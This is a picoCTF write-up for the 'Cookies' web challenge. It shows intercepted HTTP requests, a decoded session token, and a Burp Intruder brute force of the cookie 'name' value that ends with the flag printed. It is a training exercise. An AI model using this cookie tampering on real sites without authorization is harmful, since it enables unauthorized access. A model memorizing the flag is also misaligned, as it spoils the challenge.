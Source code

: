 # Cookies

## Description
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:17781/](http://mercury.picoctf.net:17781/)

## Write Up
First we'll fire up burp so we can have a look at the HTTP request that gets sent when you enter in a cookie name this is what we can see:

```
POST /search HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://mercury.picoctf.net:17781
DNT: 1
Connection: close
Cookie: name=-1
Upgrade-Insecure-Requests: 1

name=mint
```

This is the resultant HTTP request when I entered in mint into the search bar. The request has a Cookie header which has a "name" attribute, and the POST body has a "name" field with our input inside. 

If we forward our this request through a **GET** request gets created:

```
GET / HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
DNT: 1
Connection: close
Cookie: name=-1; session=eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiVGhhdCBkb2Vzbid0IGFwcGVhciB0byBiZSBhIHZhbGlkIGNvb2tpZS4iXX1dfQ.YShNXQ.I6h-imR03NfNpf3sg3t6btKuMEE
Upgrade-Insecure-Requests: 1
```

The Cookie header now has a session token which looks like a **JSON Web Token (JWT)**, If we copy it into a JWT decoder we can see that the token is malformed however, we can see some of its values:

```
{
  "_flashes": [
    {
      " t": [
        "danger",
        "That doesn't appear to be a valid cookie."
      ]
    }
  ]
}
```

It is telling us the Cookie value "name=-1" doesnt seem to be valid. So we will go back to the home page, enter a new cookie name in, intercept the request and alter the Cookie header attribute and see what happens. (NOTE: Additional GET request get created when we alter the "name" attribute, we will update the name attribute to our new number that we are trying with all these subsequent requests):

First request : **POST** to /search: name=1
```
POST /search HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Origin: http://mercury.picoctf.net:17781
DNT: 1
Connection: close
Cookie: name=1
Upgrade-Insecure-Requests: 1

name=
```

Second request: **GET** to /: name=1
```
GET / HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
DNT: 1
Connection: close
Cookie: name=1; session=eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiVGhhdCBkb2Vzbid0IGFwcGVhciB0byBiZSBhIHZhbGlkIGNvb2tpZS4iXX1dfQ.YShPlQ.3fIqpvgH5hbrlUW69JrZkIQ5AH4
Upgrade-Insecure-Requests: 1
```

Third request: **GET** to /check: name=1
```
GET /check HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
DNT: 1
Connection: close
Cookie: name=1; session=eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiVGhhdCBkb2Vzbid0IGFwcGVhciB0byBiZSBhIHZhbGlkIGNvb2tpZS4iXX1dfQ.YShPlQ.3fIqpvgH5hbrlUW69JrZkIQ5AH4
Upgrade-Insecure-Requests: 1
```

We can see that the page responds with this:

![[chocolate.png]]

So we know that cookie types are assigned to a number referenced in the name attribute. So we will use Burpsuite intruder to brute force name values starting 1. (NOTE: We dont sent the **POST** request to the intruder because we know that all the post requests to /search just get redirected, as we saw above with the subsequent requests we dealt with before, instead we send the request that gets generated after a POST is sent to /search)

Our positions will look like this, with attack type **Sniper**:
```
GET /check HTTP/1.1
Host: mercury.picoctf.net:17781
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mercury.picoctf.net:17781/
DNT: 1
Connection: close
Cookie: name=§-1§; session=eyJfZmxhc2hlcyI6W3siIHQiOlsiZGFuZ2VyIiwiVGhhdCBkb2Vzbid0IGFwcGVhciB0byBiZSBhIHZhbGlkIGNvb2tpZS4iXX1dfQ.YSh3aA.J8b66mdt5q4dPoOSpNL9ARqqPfQ
Upgrade-Insecure-Requests: 1
```

And our payload will contain this configuration:
![[intruder-config.png]]

After the intruder attack is done, we can see a list of all the requests sent and their responses back, if we start looking through the responses we will eventually come across the response to name=18 which contains our cookie.

picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}
